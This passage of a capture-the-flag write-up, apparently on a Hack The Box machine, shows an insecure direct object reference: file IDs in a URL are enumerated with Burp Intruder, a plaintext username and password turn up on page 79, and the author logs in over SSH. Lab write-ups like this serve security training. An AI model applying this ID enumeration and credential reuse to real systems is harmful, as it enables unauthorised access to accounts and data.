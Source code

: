 
We can now upload files.
![Pasted image 20240713220345.png](/images/Pasted image 20240713220345.png){: .normal }


Upload a test file.
![Pasted image 20240713220341.png](/images/Pasted image 20240713220341.png){: .normal }


We have the ability to reserve a file.
![Pasted image 20240713220337.png](/images/Pasted image 20240713220337.png){: .normal }


Now we see a number in the URL (IDOR?).
```
<http://drive.htb/113/block/>
```

Using Burp intruder we find a couple of results.
![Pasted image 20240713220332.png](/images/Pasted image 20240713220332.png){: .normal }

```bash
113
101
79
100
99
98
112
```

Found username and password on page 79: `martin:Xk4@KjyrYv8t194L!`.
![Pasted image 20240713220324.png](/images/Pasted image 20240713220324.png){: .normal }


SSH into the machine as martin.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh martin@10.10.11.235
martin@10.10.11.235's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

  System information as of Thu 25 Jan 2024 03:06:09 PM UTC

  System load:           0.01
  Usage of /:            63.2% of 5.07GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1fcb

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```